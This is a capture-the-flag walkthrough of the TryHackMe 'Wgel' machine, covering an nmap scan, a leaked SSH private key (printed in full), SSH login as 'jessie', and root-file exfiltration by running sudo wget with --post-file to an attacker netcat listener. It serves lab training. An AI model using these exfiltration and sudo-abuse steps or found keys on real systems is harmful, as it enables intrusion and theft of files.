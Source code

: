 ```yaml
---
title: Wgel - TryHackMe
date: 2020/08/07
categories:
  - [pentesting, writeups]
---
```


Hey there! Today I am going to walk you through the Wgel machine on [TryHackMe](https://tryhackme.com/room/wgelctf)

The first thing I always do is to export the IP to a global variable. So from now on \$IP will refer to the IP of the target machine.

```bash
export IP={Machine IP}
```

![test](burp.png)
![test](burp.png)
![test](burp.png)

![test](flag2.2.png)

## Enumeration

Let us start our enumeration as usual and do an nmap scan:

```bash
nmap -T4 -A $IP
```

This is what came back:

```plain
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-07 09:47 EDT
Nmap scan report for 10.10.54.255
Host is up (0.051s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=8/7%OT=22%CT=1%CU=42515%PV=Y%DS=2%DC=T%G=Y%TM=5F2D5B8F
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=RD%TS=A)SEQ(SP=1
OS:05%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O
OS:3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSN
OS:W6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   52.28 ms 10.9.0.1
2   52.35 ms 10.10.54.255

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.73 seconds
```

So just SSH on port 22 and Apache on port 80. Let us first do some enumeration on the web server.<br/>On first glance there is just the Apache default page. If we have a look at the source code we can see that there is a comment inside:

```html
<!-- Jessie don't forget to udate the webiste -->
```

Apparently someone called Jessie is a developer or user of the target machine.

But let us run dirbuster and see if there is more to find.

At **/sitemap/** there is a blog like website with the title “unapp” but I did not find anything interesting there nor any exploits. So let us move on.

Weirdly my scan did not find anything, but I poked around a bit more and just tried random directories and files. So I stumbled upon this: **/sitemap/.ssh/id_rsa**.

```plain
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
+J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
/1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
-----END RSA PRIVATE KEY-----
```

It is an SSH private key you can use to login to someones SSH.<br/>I went ahead and copied the key to a file called **id_rsa** and gave it the permissions SSH likes.

```bash
chmod 600 id_rsa
```

## Gaining Access

Now we can use that previously found key to login to SSH. The only thing we are missing is a user to map that key to. In this case the server would be even vulnerable to an exploit to enumerate all the users on a server, but because we found something for “Jessie” earlier, I assumed, that the key was Jessie’s.<br/>So let’s login as Jessie with the private key.

```bash
ssh -i id_rsa  jessie@$IP
```

### User Flag

The user flag was hidden inside of the “Documents” directory.

```bash
jessie@CorpOne:~$ ls
Desktop  Documents  Downloads  examples.desktop  Music  Pictures  Public  Templates  Videos

jessie@CorpOne:~$ cd Desktop/
jessie@CorpOne:~/Desktop$ ls

jessie@CorpOne:~/Desktop$ cd ..
jessie@CorpOne:~$ cd Documents/
jessie@CorpOne:~/Documents$ ls
user_flag.txt

jessie@CorpOne:~/Documents$ cat user_flag.txt
USER_FLAG
```

## Post Exploitation & Getting Root

Before uploading linpeas or anything else I fancied, I just had a look at our sudo permissions myself.

```plain
jessie@CorpOne:~/Documents$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

Interesting, apparently we can run **wget** as root without a password. So as always I had a look at [GTFOBins](https://gtfobins.github.io/) and found [this](https://gtfobins.github.io/gtfobins/wget/) for wget.

### Root Flag

It seems like we can download files to another machine. We can use that knowledge to directly exfiltrate the root flag.<br/>(Trust me it took me ages to figure that one out. I first tried to download /etc/shadow and simliar.)

So on my machine I listened for incoming connections on port 80 and stored the output in a file called “root_flag.txt”:

```plain
root@hades      :~/ctf/thm/wgel# nc -lnvp 80 > root_flag.txt
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.54.255.
Ncat: Connection from 10.10.54.255:36442.
```

On the target machine I used wget with the “–post-file” flag to send the root flag to my machine.

```bash
jessie@CorpOne:~/Documents$ sudo /usr/bin/wget --post-file=/root/root_flag.txt $YOUR_IP
--2020-08-07 18:11:21--  http://$YOUR_IP/
Connecting to $YOUR_IP:80... connected.
HTTP request sent, awaiting response...
```

You should now be able to cat out the root flag in the “root_flag.txt” file.

```bash
root@hades:~/ctf/thm/wgel# cat root_flag.txt
ROOT_FLAG
```

## The End

And there you have it! I hope you had fun, I know I did 🦄
